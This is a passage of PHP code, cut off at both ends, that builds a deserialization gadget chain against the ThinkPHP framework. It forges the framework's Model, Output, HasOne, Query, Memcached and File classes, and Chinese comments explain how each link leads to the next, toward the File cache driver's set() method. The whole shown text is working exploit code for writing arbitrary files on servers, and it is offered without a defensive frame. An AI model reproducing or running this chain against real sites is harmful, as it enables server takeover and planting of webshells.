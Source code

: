 ```php
}
class HasOne extends OneToOne{
    protected $bindAttr = [];
    function __construct(){
        parent::__construct();
        $this->bindAttr = ["no","123"];
    }
}

namespace think\console;#Output
use think\session\driver\Memcached;
class Output{
    private $handle = null;
    protected $styles = [];
    function __construct(){
        $this->handle = new Memcached();//目的调用其write()
        $this->styles = ['getAttr'];
    }
}

namespace think;#Model
use think\model\relation\HasOne;
use think\console\Output;
use think\db\Query;
abstract class Model{
    protected $append = [];
    protected $error;
    public $parent;#修改处
    protected $selfRelation;
    protected $query;
    protected $aaaaa;

    function __construct(){
        $this->parent = new Output();#Output对象,目的是调用__call()
        $this->append = ['getError'];
        $this->error = new HasOne();//Relation子类,且有getBindAttr()
        $this->selfRelation = false;//isSelfRelation()
        $this->query = new Query();

    }
}

namespace think\db;#Query
use think\console\Output;
class Query{
    protected $model;
    function __construct(){
        $this->model = new Output();
    }
}

namespace think\session\driver;#Memcached
use think\cache\driver\File;
class Memcached{
    protected $handler = null;
    function __construct(){
        $this->handler = new File();//目的调用File->set()
    }
}
namespace think\cache\driver;#File
class File{
    protected $options = [];
    protected $tag;
```